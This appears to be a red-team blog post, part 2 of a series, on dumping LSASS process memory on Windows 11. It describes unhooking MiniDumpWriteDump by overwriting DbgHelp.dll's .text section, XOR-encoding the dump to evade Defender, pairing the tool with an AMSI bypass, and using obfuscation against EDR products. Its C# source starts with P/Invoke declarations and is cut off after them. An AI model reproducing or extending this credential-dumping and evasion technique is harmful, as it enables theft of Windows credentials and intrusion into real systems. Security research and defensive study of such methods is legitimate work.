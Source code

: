 ```yaml
---
title: "Dumping LSASS on Windows 11 - Part2"
layout: "post"
categories: "Windows"
tags: ["Red Team"]
---
```


Hey everyone,

Today I'm going to be finishing the blog on dumping LSASS on Windows 11. To kick things off, I will start where we left off, which is developing a .NET assembly to dump LSASS and pairing it with the previously developed In-Process Patchless AMSI Bypass PowerShell script.

I will be using this GitHub repository as the base code but transforming the C++ into C#: [https://github.com/peiga/DumpThatLSASS/tree/main](https://github.com/peiga/DumpThatLSASS/tree/main). The code performs API unhooking of the MiniDumpWriteDump function by getting a fresh copy of DbgHelp.dll from disk. It then copies the .text section of the unhooked and clean DbgHelp.dll to overwrite the .text section of the loaded DbgHelp.dll, effectively overwriting and unhooking any hooks that were placed on MiniDumpWriteDump or other functions in the DLL.

In the original implementation, the author used string obfuscation, which is a good technique and a common baseline for malware tools. Although I didn't add it for my blog, I do recommend it for modern EDRs along with many other techniques I will highlight in a future EDR blog.

As mentioned in part 1 of this blog, Defender doesn't flag the dumping of LSASS, but it does flag when the content is written to disk. We saw that with the Golang code that sent the dump to a remote machine via an anonymous pipe. Defender never flagged during the operation, even though the code wasn't obfuscated or encrypted. In my debugging with a .NET assembly, I observed the same behavior.

In my implementation below, I dump LSASS to a file on disk called test.txt. After closing the handle to write to the file, I read in all the bytes from the file and then XOR them by a key of 0xFF. I have provided the code below.



``` cs

using System;
using System.Diagnostics;
using System.IO;
using System.Runtime.InteropServices;
using System.Text;

class Program
{

    [DllImport("kernel32.dll", CharSet = CharSet.Ansi)]
    static extern IntPtr GetModuleHandle(string lpModuleName);

    [DllImport("kernel32.dll", SetLastError = true)]
    [return: MarshalAs(UnmanagedType.Bool)]
    static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out uint lpflOldProtect);

    [DllImport("dbghelp.dll", SetLastError = true)]
    [return: MarshalAs(UnmanagedType.Bool)]
    static extern bool MiniDumpWriteDump(IntPtr hProcess, uint ProcessId, IntPtr hFile, uint DumpType, IntPtr ExceptionParam, IntPtr UserStreamParam, IntPtr CallbackParam);

    [DllImport("advapi32.dll", SetLastError = true, CharSet = CharSet.Auto)]
    [return: MarshalAs(UnmanagedType.Bool)]
    static extern bool LookupPrivilegeValue(string lpSystemName, string lpName, out LUID lpLuid);

    [DllImport("advapi32.dll", SetLastError = true)]
    [return: MarshalAs(UnmanagedType.Bool)]
```
